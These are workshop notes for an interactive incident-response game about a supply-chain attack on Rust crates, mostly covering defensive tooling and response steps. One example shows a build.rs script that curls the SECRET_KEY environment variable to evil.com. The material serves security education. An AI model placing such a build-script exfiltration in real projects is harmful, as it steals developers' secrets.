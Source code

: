 #+TITLE: Choose Your Own Disaster – Rusty and the Crate Escape!
#+SPEAKER: Christopher "CRob" Robinson
#+DATE: 2025-09-04 11:40-12:25
#+LOCATION: Regency A (Floor 7)
#+TYPE: Interactive Experience / Workshop
#+TAGS: security incident-response supply-chain gamification
#+OPTIONS: toc:2 num:t

* Overview

An interactive, gamified cybersecurity incident response exercise where attendees will navigate a mock disaster affecting the Rust ecosystem. Through humor and hands-on decision-making, participants will learn critical security response skills.

** Format
- Duration: 45 minutes
- Style: Choose Your Own Adventure
- Capacity: Limited (arrive early!)
- Lunch: Grab food and bring it

* Pre-Workshop Preparation

** What to Bring
- [ ] Laptop/tablet for voting
- [ ] Lunch (grab before session)
- [ ] Note-taking materials
- [ ] Sense of humor
- [ ] Security mindset

** Pre-Reading (Optional)
- [[https://crates.io/policies][Crates.io Security Policies]]
- [[https://rustsec.org][RustSec Advisory Database]]
- [[https://github.com/rust-lang/rfcs/blob/master/text/2052-epochs.md][Rust Security Response]]

* The Scenario Framework

** Act 1: The Discovery (5 minutes)
*Scene:* Thursday morning at CrabCorp, a major Rust shop

#+BEGIN_QUOTE
You're sipping your coffee when Slack explodes with notifications. 
Your CI/CD pipeline is failing. Dependencies can't be resolved. 
Something is very wrong in the Rust ecosystem...
#+END_QUOTE

*** Initial Symptoms
- Build failures across multiple projects
- Suspicious crate updates
- Authentication errors
- Performance degradation

*** Your First Choice
A) Ignore it - probably transient
B) Investigate immediately
C) Wait for upstream fix
D) PANIC!

** Act 2: The Investigation (10 minutes)

*** Potential Attack Vectors

**** Supply Chain Compromise
#+BEGIN_SRC rust
// Malicious crate example
[dependencies]
totally-legit-crate = "1.0.0"  // Was this always here?
#+END_SRC

**** Typosquatting
| Real Crate | Malicious Version |
|------------+-------------------|
| serde | serdee |
| tokio | tokoi |
| reqwest | request |

**** Dependency Confusion
#+BEGIN_SRC toml
[dependencies]
internal-company-crate = "0.1.0"  # Oops, someone published this publicly
#+END_SRC

*** Investigation Tools
#+BEGIN_SRC bash
# Check for unexpected changes
cargo tree --duplicates
cargo audit
cargo deny check

# Verify checksums
cargo verify-project

# Review recent updates
cargo update --dry-run
#+END_SRC

*** Your Second Choice
A) Roll back all recent changes
B) Audit every dependency manually
C) Switch to vendored dependencies
D) Call your manager

** Act 3: The Response (15 minutes)

*** Incident Response Checklist

**** Immediate Actions
1. [ ] Isolate affected systems
2. [ ] Document timeline
3. [ ] Preserve evidence
4. [ ] Notify stakeholders

**** Communication Template
#+BEGIN_EXAMPLE
Subject: [SECURITY] Potential Supply Chain Issue

Status: INVESTIGATING
Impact: Build systems affected
Action: Please hold deployments
ETA: Update in 30 minutes
#+END_EXAMPLE

*** Response Strategies

**** Option A: Lockdown Mode
#+BEGIN_SRC bash
# Freeze all dependencies
cargo generate-lockfile
git add Cargo.lock
git commit -m "Security: Lock all dependencies"

# Vendor everything
cargo vendor
echo '[source.crates-io]' >> .cargo/config.toml
echo 'replace-with = "vendored-sources"' >> .cargo/config.toml
#+END_SRC

**** Option B: Selective Trust
#+BEGIN_SRC toml
# cargo-deny.toml
[bans]
multiple-versions = "deny"
wildcards = "deny"

[sources]
unknown-registry = "deny"
unknown-git = "deny"
#+END_SRC

**** Option C: Full Audit
#+BEGIN_SRC bash
# Manual verification
for crate in $(cargo tree --no-indent | cut -d' ' -f1 | sort -u); do
    echo "Checking $crate..."
    cargo search $crate --limit 1
    # Compare with known-good versions
done
#+END_SRC

*** Your Third Choice
A) Implement emergency vendor mode
B) Create allowlist of trusted crates
C) Migrate to internal registry
D) Rebuild from scratch

** Act 4: The Recovery (10 minutes)

*** Remediation Steps

**** Clean Environment
#+BEGIN_SRC bash
# Clear all caches
cargo clean
rm -rf ~/.cargo/registry
rm -rf ~/.cargo/git

# Rebuild with verification
cargo build --locked
#+END_SRC

**** Policy Implementation
#+BEGIN_SRC toml
# .cargo/config.toml
[net]
git-fetch-with-cli = true

[http]
check-revoke = true

[build]
dep-info-basedir = "."
#+END_SRC

*** Your Fourth Choice
A) Return to normal operations
B) Implement stricter policies
C) Conduct post-mortem
D) All of the above

** Act 5: The Aftermath (5 minutes)

*** Lessons Learned
- Security is everyone's responsibility
- Trust but verify dependencies
- Automation can be a vulnerability
- Communication is critical

*** Your Final Choice
A) Share findings with community
B) Contribute to RustSec
C) Improve internal processes
D) Write a blog post

* Security Best Practices

** Dependency Management

*** Cargo.lock is Your Friend
#+BEGIN_SRC bash
# Always commit Cargo.lock for applications
git add Cargo.lock
git commit -m "Lock dependencies for reproducible builds"
#+END_SRC

*** Regular Auditing
#+BEGIN_SRC bash
# Add to CI/CD pipeline
cargo install cargo-audit
cargo audit

# Deny dangerous crates
cargo install cargo-deny
cargo deny check
#+END_SRC

*** Version Pinning Strategy
#+BEGIN_SRC toml
[dependencies]
# Bad: Too permissive
serde = "*"

# Better: Minor version locked
serde = "1.0"

# Best: Exact version for critical deps
serde = "=1.0.195"
#+END_SRC

** Supply Chain Security

*** Verify Publishers
#+BEGIN_SRC bash
# Check crate ownership
cargo owner --list <crate-name>

# Verify repository
cargo info <crate-name>
#+END_SRC

*** Use cargo-vet
#+BEGIN_SRC bash
cargo install cargo-vet
cargo vet init
cargo vet suggest
#+END_SRC

*** Private Registry Setup
#+BEGIN_SRC toml
# .cargo/config.toml
[registries.company]
index = "https://my-company-registry.com/index"

[source.crates-io]
replace-with = "company"
#+END_SRC

* Common Attack Scenarios

** Scenario 1: Malicious Update
- Popular crate gets compromised
- New version contains backdoor
- Auto-updates pull in malicious code

** Scenario 2: Typosquatting
- Developer makes typo in Cargo.toml
- Malicious crate with similar name
- Code execution on build

** Scenario 3: Abandoned Crate Takeover
- Maintainer disappears
- Crate ownership transferred
- New "maintainer" adds malware

** Scenario 4: Build Script Attack
#+BEGIN_SRC rust
// build.rs
fn main() {
    // Looks innocent...
    println!("cargo:rerun-if-changed=src/main.rs");
    
    // But could be malicious
    std::process::Command::new("curl")
        .args(&["-X", "POST", "http://evil.com/steal", 
                "-d", &std::env::var("SECRET_KEY").unwrap()])
        .output()
        .expect("Failed to execute");
}
#+END_SRC

* Response Procedures

** Detection Phase
1. Monitor CI/CD failures
2. Check security advisories
3. Review dependency changes
4. Analyze build logs

** Containment Phase
1. Freeze deployments
2. Isolate affected systems
3. Preserve evidence
4. Document everything

** Eradication Phase
1. Remove malicious dependencies
2. Clean build artifacts
3. Rotate credentials
4. Patch vulnerabilities

** Recovery Phase
1. Restore from clean state
2. Verify system integrity
3. Resume operations gradually
4. Monitor for recurrence

** Lessons Learned Phase
1. Conduct post-mortem
2. Update procedures
3. Share with community
4. Improve defenses

* Interactive Elements

** Audience Voting System
- Live polling for decisions
- QR codes for participation
- Real-time results display
- Branching storylines

** Role Assignments
| Role | Responsibility |
|------+----------------|
| SRE | System recovery |
| Security | Threat analysis |
| Developer | Code review |
| Manager | Communication |
| Legal | Compliance |

** Score Tracking
- Time to detection: ___
- Systems affected: ___
- Data compromised: ___
- Recovery time: ___
- Lessons learned: ___

* Tools & Resources

** Essential Security Tools
#+BEGIN_SRC bash
# Install security toolkit
cargo install cargo-audit
cargo install cargo-deny
cargo install cargo-outdated
cargo install cargo-vet
cargo install cargo-crev
#+END_SRC

** Monitoring Commands
#+BEGIN_SRC bash
# Check for known vulnerabilities
cargo audit

# Review dependency tree
cargo tree --duplicates

# Check for outdated deps
cargo outdated

# Verify project integrity
cargo verify-project
#+END_SRC

** Emergency Contacts
- RustSec: [[https://rustsec.org/report]]
- Crates.io: security@crates.io
- GitHub Security: [[https://github.com/security/advisories]]

* Post-Workshop Actions

** Immediate Steps
- [ ] Review your projects' dependencies
- [ ] Set up cargo-audit in CI
- [ ] Create incident response plan
- [ ] Document security contacts

** This Week
- [ ] Implement cargo-deny policies
- [ ] Audit critical dependencies
- [ ] Set up private registry (if needed)
- [ ] Train team on security practices

** This Month
- [ ] Conduct security assessment
- [ ] Establish review process
- [ ] Create security champions
- [ ] Run your own drill

* Key Takeaways

1. **Prevention > Response** - Proactive security beats reactive
2. **Trust but Verify** - Audit your dependency chain
3. **Automate Security** - Make it part of CI/CD
4. **Community Matters** - Share and learn from incidents
5. **Practice Makes Perfect** - Run drills regularly

* Additional Resources

** Documentation
- [[https://doc.rust-lang.org/cargo/reference/registry-index.html][Cargo Registry Protocol]]
- [[https://rust-lang.github.io/rfcs/2052-epochs.html][Rust Security Model]]
- [[https://owasp.org/www-project-dependency-check/][OWASP Dependency Check]]

** Tools
- [[https://github.com/RustSec/rustsec][RustSec Advisory DB]]
- [[https://github.com/EmbarkStudios/cargo-deny][cargo-deny]]
- [[https://github.com/mozilla/cargo-vet][cargo-vet]]
- [[https://github.com/crev-dev/cargo-crev][cargo-crev]]

** Communities
- [[https://rust-lang.zulipchat.com/#narrow/stream/146229-wg-secure-code][Rust Secure Code WG]]
- [[https://discord.gg/rust-lang][Rust Discord #security]]

* Fun Easter Eggs

** Achievement Unlocked
- 🦀 "Crab Defender" - Stop the attack
- 💎 "Diamond Hands" - Don't panic
- 🕵️ "Detective" - Find the root cause
- 🚀 "Speed Runner" - Resolve in <10 minutes
- 📚 "Documentarian" - Perfect incident report

** Wrong Answers Only
- "Have you tried turning it off and on again?"
- "It's probably DNS"
- "Just use unsafe everywhere"
- "Blame the intern"
- "Ship it anyway, YOLO"

---

*Remember:* In a real incident, stay calm, document everything, and communicate clearly. This exercise is practice for when it matters!

*Speaker:* Christopher "CRob" Robinson | Security Expert